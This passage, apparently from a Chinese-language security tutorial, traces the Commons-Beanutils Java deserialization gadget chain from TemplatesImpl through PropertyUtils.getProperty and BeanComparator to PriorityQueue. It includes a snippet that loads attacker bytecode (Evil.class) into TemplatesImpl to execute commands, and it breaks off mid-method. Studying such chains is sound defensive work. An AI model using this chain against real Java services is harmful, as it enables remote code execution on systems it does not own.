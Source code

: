 我们发现TemplatesImpl正好有一个outputProperties的私有属性，那么`getOutputProperties()`其实是TemplatesImpl的一个gettar方法！

commons-beanutils中提供了一个静态方法`PropertyUtils.getProperty`，让使用者可以直接调用任意JavaBean的getter方法，比如：

```java
PropertyUtils.getProperty(new Student(), "name");
```

就会自动执行Student对象的getName()方法。

同理在这个例子中，我们可以将利用方法改为如下代码，也可执行命令：

```java
TemplatesImpl template = new TemplatesImpl();
setField("_name",template,"Von");
setField("_bytecodes",template,new byte[][]{Files.readAllBytes(Paths.get("/Users/CC3/Evil.class"))});
setField("_tfactory",template,new TransformerFactoryImpl());
PropertyUtils.getProperty(template, "outputProperties");
```

接下去我们继续寻找调用了`getProperty()`方法的利用点，发现`org.apache.commons.beanutils.BeanComparator`类中的`compare`方法调用了`getProperty()`方法

```
public int compare( T o1, T o2 ) {

    if ( property == null ) {
        // compare the actual objects
        return internalCompare( o1, o2 );
    }

    try {
        Object value1 = PropertyUtils.getProperty( o1, property );
        Object value2 = PropertyUtils.getProperty( o2, property );
        return internalCompare( value1, value2 );
    }
    catch ( IllegalAccessException iae ) {
        throw new RuntimeException( "IllegalAccessException: " + iae.toString() );
    }
    catch ( InvocationTargetException ite ) {
        throw new RuntimeException( "InvocationTargetException: " + ite.toString() );
    }
    catch ( NoSuchMethodException nsme ) {
        throw new RuntimeException( "NoSuchMethodException: " + nsme.toString() );
    }
}
```

# PriorityQueue

这里我们要做的是继续往上寻找调用了`compare()`方法的利用点，但是说实话这里调用点不少，事后诸葛亮的结果是发现

`java.util.PriorityQueue`中的`siftDownUsingComparator()`方法中调用了`compare()`方法：

```java
private void siftDownUsingComparator(int k, E x) {
  int half = size >>> 1;
  while (k < half) {
    int child = (k << 1) + 1;
    Object c = queue[child];
    int right = child + 1;
    if (right < size &&
        comparator.compare((E) c, (E) queue[right]) > 0)
      c = queue[child = right];
    if (comparator.compare(x, (E) c) <= 0)
      break;
    queue[k] = c;
```